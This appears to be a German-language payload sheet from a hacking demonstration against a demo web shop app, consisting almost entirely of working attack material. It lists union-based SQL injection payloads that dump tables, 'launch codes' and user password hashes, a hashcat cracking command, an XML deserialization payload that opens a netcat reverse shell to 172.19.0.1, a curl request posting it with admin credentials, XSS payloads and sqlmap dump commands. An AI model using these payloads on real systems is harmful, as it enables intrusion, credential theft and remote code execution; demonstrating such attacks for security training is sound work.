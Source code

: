 Im Folgenden findet ihr die verwendeten Payloads der Hacking-Demonstration.

# Manual SQLi

## Enumerate number of columns:

```JSON
{"email":"asdf@asldf.adgh","name":"' ORDER BY 6;--","source":"Friend"}
```

Notiz: Spielen mit der Anzahl der Spalten, bei 7 ändert sich die Fehlermeldung

## Enumerate strings:

```JSON
{"email":"asdf@asldf.adgh","name":"' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL--","source":"Friend"}
```

Strings sind die Positionen: 3,4,5,6

## Enumerate Tables:

```JSON
{"email":"asdf@asldf.adgh","name":"' UNION SELECT NULL,NULL,NULL,NULL,GROUP_CONCAT(TABLE_NAME SEPARATOR ', '),NULL FROM information_schema.tables --","source":"Friend"}`
```

Notiz: Letze Zeile wird ausgegeben und enthält in der entsprechenden Variable alle gewünschten Tabellennamen (ink. Systemtabellen)

## Enumerate Columns:

```JSON
{"email":"asdf@asldf.adgh","name":"' UNION SELECT NULL,NULL,NULL,NULL,GROUP_CONCAT(COLUMN_NAME SEPARATOR ', '),NULL FROM information_schema.columns --","source":"Friend"}`
```

Notiz: Letze Zeile wird ausgegeben und enthält in der entsprechenden Variable alle gewünschten Spaltennamen - Mapping mit XMV


## Get Launchcodes:

```JSON
{"email":"asdf@asldf.adgh","name":"' UNION SELECT NULL,NULL,NULL,NULL,GROUP_CONCAT(CONCAT(DEVICE, ':', LAUNCH_CODE) SEPARATOR ', '),NULL FROM LAUNCH_CODE --","source":"Friend"}`
```

## Get Passwords:

```JSON
{"email":"asdf@asldf.adgh","name":"' UNION SELECT NULL,NULL,NULL,NULL,GROUP_CONCAT(CONCAT(USERNAME, ':', PASSWORD) SEPARATOR ', '),NULL FROM APP_USER --","source":"Friend"}`
```

## Crack Hash:

```bash
hashcat -m 3200 -a 0 hashes /usr/share/wordlists/seclists/Passwords/Common-Credentials/best1050.txt`
```

# RCE:

## Payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<newsletter class="dynamic-proxy">
    <interface>com.andrena.newsshop.model.Newsletterable</interface>
    <handler class="java.beans.EventHandler">
        <target class="java.lang.ProcessBuilder">
            <command>
                <string>nc</string>
                <string>172.19.0.1</string>
                <string>1337</string>
                <string>-e</string>
                <string>/bin/sh</string>
            </command>
        </target>
        <action>start</action>
    </handler>
</newsletter>
```

## Shell Catcher

```bash
nc -lvnp 1337
```

## curl:
```bash
curl 'http://localhost:8089/api/newsletter/import' \
  -H 'accept: application/json, text/plain, */*' \
  -H 'authorization: Basic YWRtaW46YWRtaW4=' \
  -H 'Content-Type: application/xml' \
  --data-binary '@payload.xml' \
  --request POST
```
  
# XSS / CSRF

```JSON
{"email":"<img src=\"a\" onerror=\"alert(0)\" />",
"name":"<img src=\"a\" onerror=\"alert(1)\" />","source":"<img src=\"a\" onerror=\"alert(2)\" />",
"mail_properties":"<img src=\"a\" onerror=\"alert(3)\" />"
}
```

# sqlmap

```bash
sqlmap -r req --flush
```

```bash
sqlmap -r req --dump --randomize=email --flush
```

```bash
sqlmap -r req --dump --randomize=email --ignore-code=409,500 --flush
```

```bash
sqlmap -r req -D PUBLIC -T APP_USER -C username,password --dump --randomize=email --ignore-code=409,500 --flush
```

```bash
sqlmap -r req --technique=BT --level 5 --risk 3 --dump --flush
```